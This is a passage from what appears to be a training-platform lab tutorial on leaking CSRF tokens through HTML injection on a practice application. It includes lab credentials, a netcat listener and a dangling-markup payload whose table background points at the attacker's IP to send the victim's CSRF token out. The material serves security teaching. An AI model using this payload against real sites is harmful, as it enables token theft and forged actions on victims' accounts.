 * * *

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost ( `csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

![image](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>

```

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source ( `Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

```shell
nc -nlvp 8000
listening on [any] 8000 ...

```

Now we can get the CSRF token via sending the below payload to our victim.

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f

```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.
